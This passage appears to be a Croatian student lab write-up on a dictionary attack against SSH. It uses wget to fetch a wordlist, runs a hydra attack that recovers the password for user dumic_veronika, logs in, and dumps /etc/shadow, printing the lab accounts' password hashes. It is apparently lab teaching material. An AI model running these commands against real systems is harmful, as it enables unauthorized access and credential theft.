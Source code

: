 - iako bi ovakvim napadom sigurno otkrili *password* problem je što bi on predugo trajao i zato moramo upotrijebiti drugačiji pristup, odnosno koristit ćemo unaprijed sastavljen *dictionary* u kojem se nalaze potencijalni *passwordi*
- skidamo *dictionary* → `wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g2/`
- `hydra -l dumic_veronika -P dictionary/g2/dictionary_online.txt 10.0.15.5 -V -t 4 ssh` → započinjemo napad

```bash
[22][ssh] host: 10.0.15.5   login: dumic_veronika   password: psengr
[STATUS] 872.00 tries/min, 872 tries in 00:01h, 1 to do in 00:01h, 1 active
1 of 1 target successfully completed, 1 valid password found
Hydra ([http://www.thc.org/thc-hydra](http://www.thc.org/thc-hydra)) finished at 2021-12-20 16:40:31
```

- otkrivena je lozinka s kojom se sada možemo ulogirati u SSH → `ssh dumic_veronika@10.0.15.5`

```bash
dumic_veronika@host_dumic_veronika:~$ whoami
dumic_veronika
```

- kada smo se uspješno ulogirali u SSH želimo pristupiti udaljenom serveru gdje je sva komunikacija enkriptirana

```bash
dumic_veronika@host_dumic_veronika:~$ sudo cat /etc/shadow
[sudo] password for dumic_veronika:
root:*:18900:0:99999:7:::
daemon:*:18900:0:99999:7:::
bin:*:18900:0:99999:7:::
sys:*:18900:0:99999:7:::
sync:*:18900:0:99999:7:::
games:*:18900:0:99999:7:::
man:*:18900:0:99999:7:::
lp:*:18900:0:99999:7:::
mail:*:18900:0:99999:7:::
news:*:18900:0:99999:7:::
uucp:*:18900:0:99999:7:::
proxy:*:18900:0:99999:7:::
www-data:*:18900:0:99999:7:::
backup:*:18900:0:99999:7:::
list:*:18900:0:99999:7:::
irc:*:18900:0:99999:7:::
gnats:*:18900:0:99999:7:::
nobody:*:18900:0:99999:7:::
_apt:*:18900:0:99999:7:::
systemd-network:*:18977:0:99999:7:::
systemd-resolve:*:18977:0:99999:7:::
messagebus:*:18977:0:99999:7:::
sshd:*:18977:0:99999:7:::
dumic_veronika:$6$XomcV3MjrPlXa39U$0B2acmxUcRqnDXgwRJKDIvS9ValauZLJL.7PriSHyzhFNLwnUapt854K4E.aYZlQcK8YjrtKIl0ShCPc98Wc7/:18981:0:99999:7:::
jean_doe:$6$Zv//yCIF5YSrWJuE$jHHehJrYDVjuzgFMwYFpq9sEBn2AHyufdKjm8eSIwE5K/keGNgthiSYca7dIvTYlBwU6Vs727crhgesSYH9aP/:18981:0:99999:7:::
john_doe:$6$LeNF/QHW1ojBCFmz$Ykeu3MLee/ITjHX9mY9rjJ/eRBJj7BfOEe0FtBUOoWjZmnZoH23dPbs6viRme6.fniNmM5P.68WZqdKnU8ABo1:18981:0:99999:7:::
alice_cooper:$6$l2pyqDlUMkhPSLFE$GHN0c9j9avgEErkBTKWOeLzNHd3cjM72j8jYdyREvD42Z0Pd9jFX1K32xvHBqQUwxB8mdSVVrjMhcGYDbUkS8.:18981:0:99999:7:::
john_deacon:$6$SE7722na7T8j9OMB$oMAIbL9a6f2w4EhYq2V0yW3T6xvDM1vAEEWCDXf1gjeu2fefMCa4rL97gfn/uwgFlYVvw2q9oEofjV3xIJJL./:18981:0:99999:7:::
freddie_mercury:$6$/bV3KzD6CKi2lHVo$B3kH88KK/KgmdbJB2Zw2N4uhvoKvypSma7t1zZ6Xd26r0kcG7w.bRBZnSaKcUrLkWQkq1UhViVcEITgMvvzTX1:18981:0:99999:7:::
```
